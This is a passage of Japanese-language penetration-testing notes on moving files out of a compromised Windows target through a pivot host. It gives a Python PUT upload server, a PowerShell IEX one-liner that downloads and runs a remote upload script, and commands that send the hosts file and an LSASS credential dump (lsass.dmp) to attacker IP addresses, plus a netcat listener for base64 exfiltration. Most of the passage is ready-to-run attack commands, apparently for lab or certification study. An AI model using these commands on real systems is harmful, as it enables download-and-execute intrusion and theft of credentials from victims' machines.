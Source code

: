上が使えない時(ピボットホストとかで)
```sh
cat <<EOF > upload_server.py
#!/usr/bin/env python3
from http.server import SimpleHTTPRequestHandler, HTTPServer

class UploadHandler(SimpleHTTPRequestHandler):
    def do_PUT(self):
        path = self.translate_path(self.path)
        length = int(self.headers['Content-Length'])
        with open(path, 'wb') as output:
            output.write(self.rfile.read(length))
        self.send_response(200)
        self.end_headers()

server_address = ('0.0.0.0', 8080)
httpd = HTTPServer(server_address, UploadHandler)
print("Serving HTTP on port 8080... Accepting PUT requests")
httpd.serve_forever()
EOF
```

##### ターゲット側
- Python アップロード サーバーにファイルをアップロードするための PowerShell スクリプト
```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```
アップロード
```powershell-session
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```
↑がうまくいかない場合↓も有効
```ps
Invoke-WebRequest -Uri "http://172.16.5.15:8000/upload" -Method Put -InFile "C:\lsass.dmp"
```

あと、ブラウザで、`http://10.10.14.205:8000/upload`のURLにアクセスして、アップロードすることできる
#### PowerShell Base64 Web アップロード
- `Invoke-WebRequest` や `Invoke-RestMethod` を使い、PowerShell でデータを送信
- `Netcat` を使い、指定したポートでリスニング
- `POST` リクエストとしてファイルを送信
- 出力をコピーして、base64 デコード関数でファイルに変換
##### 攻撃者側
base64エンコードした値を受け取る
```shell-session
nc -lvnp 8000
```
base64エンコードをファイルに戻す
```shell-session
 echo <base64> | base64 -d -w 0 > hosts
```
